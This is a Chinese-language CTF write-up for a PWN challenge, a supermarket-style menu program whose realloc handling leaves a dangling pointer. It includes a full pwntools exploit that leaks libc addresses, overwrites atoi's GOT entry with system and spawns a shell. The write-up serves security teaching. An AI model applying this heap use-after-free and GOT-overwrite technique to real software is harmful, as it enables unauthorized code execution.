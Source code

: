 # 全国大学生信息安全竞赛-PWN
### 序言
> 第一次在大赛中做出`PWN`题, 心情有点小激动.

### 程序运行
**0. 结构体**
```
struct node{
    char name[16];
    int price;
    int size;
    char* des;
}commodity[15];
```
**1.MENU**
```
1. add a commodity
2. del a commodity
3. list commodities
4. Change the price of a commodity
5. Change the description of a commodity
6. exit
```
**2. Add**
> `add` 一个 `commodity`, 输入`name, price, descrip_size`

**3. Del**
> 'del'一个`commodity`, 数组的指针会清零, `des`释放, `price`清零

**4. list**
> 列出所有内容,

**5. Change the price(没什么用)**
**6. Change the description of a commodity**
> &nbsp;&nbsp;&nbsp;&nbsp;漏洞在`realloc`, 当重新分配的`new_size < pre_size`, 返回原指针; `new_size > pre_size`释放原原指针, 重新分配内存. 但数组中的s指针并没有改成新分配的堆指针, 仍指向已释放的, 这点很重要. 此时又分配一个`node`, 恰好是这个已释放的堆, 那么上一个堆就可以编辑这个新分配的堆,　恐怖.
```c
char *realloc(ptr, newSize)
    char 	 *ptr;		/* Ptr to currently allocated block.  If
				 * it's 0, then this procedure behaves
				 * identically to malloc. */
    unsigned int newSize;	/* Size of block after it is extended */
{
    unsigned int curSize;
    char *newPtr;

    if (ptr == 0) {
	   return malloc(newSize);
    }
    curSize = Mem_Size(ptr);
    if (newSize <= curSize) {
	   return ptr;
    }
    newPtr = malloc(newSize);
    bcopy(ptr, newPtr, (int) curSize);
    free(ptr);
    return(newPtr);
}
```
### 过程
&nbsp;&nbsp;&nbsp;&nbsp;**思路**: 利用`realloc`函数产生的释放原指针, 程序没有更新指针. 实现修改`leak memory求得system真实地址`,`修改atoi的got表值为system`, 发送`/bin/sh\x00`.

**步骤一**
```python
new("bill", 100, 0x80, "A"*0x80) #　target
new("john", 200, 0x18, "A"*0x18) #
change_des("bill", 0xb0, "")     # 下面结果可以看见bill的原指针已被释放
'''
chunk      0x9dde000        0x20            (inuse)
chunk      0x9dde020        0x88            (F) FD 0xf76e5700 BK 0xf76e57b0
chunk      0x9dde0a8        0x20            (inuse)
chunk      0x9dde0c8        0x20            (inuse)
chunk      0x9dde0e8        0xb8            (inuse)
'''
new("merry", 200, 0x50, "A"*0x7) #　merry被分配到此处, bill可以编辑`merry的s`
```
**步骤二: leak memory**
```python
payload = "merry\x00" + "A"*(0x1c-6-4-4) + p32(0x50) + p32(atoi) + p16(0x59) # 泄露atoi的函数地址, 这也是为了确定远程的libc.so的版本, 然后使用libc-database找出其版本
change_des("bill", 0x80, payload)
list_all()
```
**步骤三: modify**
```
change_des("merry", 0x50, p32(system))　＃修改merry, 输入system, 相当于修改atoi的got值为system地址
```
**步骤四: get shell**
```
p.sendline("/bin/sh\x00")
```
### The Whole EXP
```python

from pwn import *

p = process("./task_supermarket")
#p = remote("117.78.43.123", 31420)
elf = ELF("./task_supermarket")
#libc = ELF("./libc.so.6")
libc = ELF("./libc.so") #本机的libc
context.log_level = 'debug'

def new(name, price, size, des):
    p.recvuntil("your choice>> ")
    p.sendline("1")
    p.recvuntil("name:")
    p.sendline(name)
    p.recvuntil("price:")
    p.sendline(str(price))
    p.recvuntil("descrip_size:")
    p.sendline(str(size))
    p.recvuntil("description:")
    p.sendline(des)

def delete(name):
    p.recvuntil("your choice>> ")
    p.send("2\n")
    p.recvuntil("name:")
    p.sendline(name)

def list_all():
    p.recvuntil("your choice>> ")
    p.send("3\n")

def change_price(name, price):
    p.recvuntil("your choice>> ")
    p.sendline("4")
    p.recvuntil("name:")
    p.sendline(name)
    p.recvuntil("or rise in:")
    p.sendline(str(price))

def change_des(name, size, des):
    p.recvuntil("your choice>> ")
    p.sendline("5")
    p.recvuntil("name:")
    p.sendline(name)
    p.recvuntil("descrip_size:")
    p.sendline(str(size))
    p.recvuntil("description:")
    p.sendline(des)

free_got = elf.got['free']
atoi = elf.got['atoi']
puts = elf.plt['puts']

gdb.attach(p)
new("bill", 100, 0x80, "A"*0x80)
new("john", 200, 0x18, "A"*0x18)
change_des("bill", 0xb0, "")
new("merry", 200, 0x50, "A"*0x7)

payload = "merry\x00" + "A"*(0x1c-6-4-4) + p32(0x50) + p32(atoi) + p16(0x59)
change_des("bill", 0x80, payload)
list_all()
p.recvuntil("merry: price.")
p.recv(16)
real_atoi = u32(p.recv(4))
system = real_atoi - (libc.symbols['atoi'] - libc.symbols['system'])

log.info("real_atoi: %s" % hex(real_atoi))
log.info("system: %s" % hex(system))
change_des("merry", 0x50, p32(system))

p.recvuntil("your choice>> ")
p.sendline("/bin/sh\x00")
p.interactive()
```
### Related Link
[相关文件](https://github.com/BBS-Bill-Gates/CTF/tree/master/2018/National/pwn/task)
